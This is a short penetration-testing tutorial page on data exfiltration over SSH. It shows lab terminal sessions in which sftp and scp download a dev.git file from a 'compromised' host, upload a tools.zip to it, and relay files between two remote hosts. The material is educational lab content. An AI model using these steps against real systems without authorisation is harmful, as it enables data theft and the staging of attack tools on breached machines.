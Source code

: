 ```yaml
---
title: SSH Pentesting -> Exfiltration
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: []  
---
```


# Exfiltration : *mitre -> TA0010*
***Exfiltration*** Is a technigue of removing/transfering data from a compromsied system. Adversaries may use this technigue to steal data from a target network.

# Tools

These are some of the tools that are used to exfiltrate data via ssh protocol.

- sftp
- scp 

## sftp
***SFTP*** Known as SSH File Transfer Protocol or Secure File Transfer Protocol is a network protocol that provides file access, file transfer, and file management over any reliable data stream.

### Exfiltrating data from the compromised system

syntax
> `sftp [username]@[target_ip]`

**downloading dev.git file from the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> get dev.git
Fetching /home/user1/dev.git to dev.git
sftp> exit

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> `sftp [username]@[target_ip]`

**uploading tools.zip file to the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
tools.zip

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> put tools.zip
Uploading tools.zip to /home/user1/tools.zip
tools.zip                                                                                                                           100%    0     0.0KB/s   00:00    
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        tools.zip  
sftp> exit
```

## SCP
***SCP*** Secure copy protocol (SCP) is a means of securely transferring computer files between a local host and a remote host or between two remote hosts.

### Exfiltrating data from the compromised system to your system

syntax
> `scp [username]@[target_ip]:[path_to_remote_file] [path_to_destination]`

**downloading dev.git file from the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@192.168.43.234:/home/user1/dev.git /home/cyberkhalid/pentest/data/dev.git
user1@192.168.43.234's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

### Exfiltrating data from one remote system to another remote system

syntax
> `scp [username]@[from_target_ip]:[path_to_file_to_be_copied] [username]@[to_target_ip]:[path_to_destination]`

**transfering dev.git file from 10.42.0.21 to 10.42.0.1**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@10.42.0.21:/home/user1/dev.git cyberkhalid@10.42.0.1:/home/cyberkhalid/pentest/data
cyberkhalid@10.42.0.1's password: 
user1@10.42.0.21's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> `scp [path_local_file] [username]@[target_ip]:[path_to_destination]`

**uploading tools.zip file to the target system**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp tool.zip user1@10.42.0.21:/home/user1/tool.zip
user1@10.42.0.21's password: 
tool.zip                                                                                                                            100%    0     0.0KB/s   00:00    
```

# References

- [https://attack.mitre.org/tactics/TA0010/](https://attack.mitre.org/tactics/TA0010/)
- [https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol)
- [https://en.wikipedia.org/wiki/Secure_copy_protocol](https://en.wikipedia.org/wiki/Secure_copy_protocol)
